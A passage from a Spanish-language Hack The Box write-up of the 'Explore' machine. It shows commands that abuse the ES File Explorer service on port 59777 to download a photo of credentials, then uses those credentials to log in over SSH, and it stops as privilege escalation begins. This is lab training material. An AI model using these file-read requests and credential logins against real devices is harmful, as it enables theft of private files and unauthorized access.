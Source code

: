 Al listar las imágenes había una etiqueta llamada `location`, esa es la ruta absoluta del objeto y es la que nos pide:

```bash
❱ python3 esFILExplorer_fileRead.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/explore/356bash_scriptPY_esFILExp_getFile_credsJGP.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listones, guardao':

```bash
❱ file out.dat 
out.dat: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=12, manufacturer=Apple, model=iPhone XR, orientation=upper-right, xresolution=174, yresolution=182, resolutionunit=2, software=14.4, datetime=2021:03:06 02:13:37, hostcomputer=iPhone XR, GPS-Data], comment: "Optimized by JPEGmini 3.18.2.210033067-TBTBLN 0x905c306b", baseline, precision 8, 4032x3024, components 3
```

(Tamos jugando con un **iPhone XR** e.e) Le cambiamos su nombre al real:

```bash
❱ mv out.dat creds.jpg
```

o con `cURL`:

```bash
❱ curl -H "Content-Type: application/json" http://10.10.10.247:59777/storage/emulated/0/DCIM/creds.jpg -o creds.jpg
```

Y ahora visualicémoslo... (Hay varias maneras para hacerlo desde la terminal, les dejo la tarea :P)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/explore/356bash_credsJPG.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

WHAAAAAAAAAAAAAAAAAAAAAAAT!! Tenemos realmente lo que parecen ser unas credencialeeeeeeeeees, el usuario `kristi` y su contraseña... A probarlaaaas.

Recordemos que tenemos abierto el puerto `2222` el cual esta corriendo el servicio `SSH` (que nos permite obtener una Shell en un sistema de manera segura) pues validémoslas ahí:

```bash
❱ ssh kristi@10.10.10.247 -p 2222
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/explore/356bash_kristiSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listoooooooooooones, estamos dentro del sistema como un usuario llamado `u0_a76` (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando los puertos (servicios) que están corriendo internamente encontramos:
